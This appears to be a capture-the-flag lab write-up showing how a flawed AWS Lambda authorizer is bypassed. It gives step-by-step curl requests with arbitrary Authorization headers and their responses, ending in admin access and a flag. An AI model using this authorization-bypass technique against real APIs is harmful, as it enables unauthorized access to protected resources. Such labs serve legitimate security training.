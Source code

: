 Lambda authorizers is an API Gateway feature that uses a Lambda function to control access to the API. Based on the information provided in the request, i.e tokens, request parameters, etc, the lambda function returns a policy that allows or denies access to the API.

In this lab, we will take a look at how to poorly built lambda authorizer can be leveraged to access the API.  

Objective: Bypass the authorization and retrieve the flag

====================================================================

Send GET request to admin endpoint.
`curl -X GET https://slyh63f06e.execute-api.us-east-1.amazonaws.com/dev/admin`
Result --> {"message": "Unauthorized"}
Authorization fails due to missing token.
Send GET request to status endpoint.
`curl -X GET https://slyh63f06e.execute-api.us-east-1.amazonaws.com/dev/status`
Result --> {"message": "Unauthorized"}

Send a GET request to status endpoint with authorization header.
`curl -X GET -H "Authorization: anyvalue" https://slyh63f06e.execute-api.us-east-1.amazonaws.com/dev/status`
Result --> {"msg": "ok"}
Authorization successful.

Send a GET request to admin endpoint with different authorization header.
`curl -X GET -H "Authorization: anyvalue1" https://slyh63f06e.execute-api.us-east-1.amazonaws.com/dev/admin`
Result --> {"message": "User is not authorized to access this resource with an explicit deny"}
Status endpoint can be accessed with new token but admin endopoint can't be.

Create a new random token bash variable.
`TOKEN=$RANDOM`
`echo $TOKEN` --> 4266
Send GET request to status endpoint with token variable.
`curl -X GET -H "Authorization: $TOKEN" https://slyh63f06e.execute-api.us-east-1.amazonaws.com/dev/status`
Result --> {"msg": "ok"}

Send GET request to admin endpoint with same variable.
`curl -X GET -H "Authorization: $TOKEN" https://slyh63f06e.execute-api.us-east-1.amazonaws.com/dev/admin`
Result --> {"msg": "Flag: xxxxxxxx"}
Authorization bypassed.
